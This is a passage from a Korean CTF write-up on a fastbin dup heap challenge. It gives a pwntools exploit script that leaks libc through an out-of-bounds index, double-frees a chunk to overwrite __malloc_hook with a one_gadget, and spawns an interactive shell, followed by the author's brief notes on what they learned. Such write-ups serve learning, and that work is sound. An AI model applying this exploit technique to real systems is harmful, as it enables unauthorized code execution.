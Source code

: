 ```python

def free(index):
    p.sendafter("> ","2")
    p.sendlineafter("index: ",str(index))

def show(index):
        p.sendafter("> ","3")
        p.sendlineafter("index: ",str(index))


show((put_rela-ptr_adr)/8)

put_addr=u64(p.recv(6)+"\x00\x00")
libc_base=put_addr-libc.symbols['puts']
malloc_hook=libc_base+libc.symbols['__malloc_hook']
log.info("put_addr::"+hex(put_addr))
log.info(hex(libc_base))
log.info(hex(malloc_hook))
malloc(89,"A"*8)
malloc(89,"B"*8)

free(0)
free(1)
free(0)

malloc(89,p64(malloc_hook-35))
malloc(89,"C"*8)
malloc(89,"D"*8)
malloc(89,"E"*19+p64(libc_base+0xf02a4))
pause()
free(2)
pause()
free(2)
p.interactive()
```


<br><br><br>

### 4. 몰랐던 개념

---

힙 관련 문제중 쉬운 편인 fastbin dup을 풀어봤다. 확실히 힙 공부를 먼저 해놔서 이해가 쉽게 되었다.

이번 문제를 통해 새롭게 알게 된 사실은 double free error시 malloc이 호출된다는 사실이다.

(그냥 free 일때도 호출하는지 확인해봐야겠다..ㅋ)  **⇒ 일반적인 free에서는 안하는 듯 ㅋ**

이제 힙 문제로 떠나보자.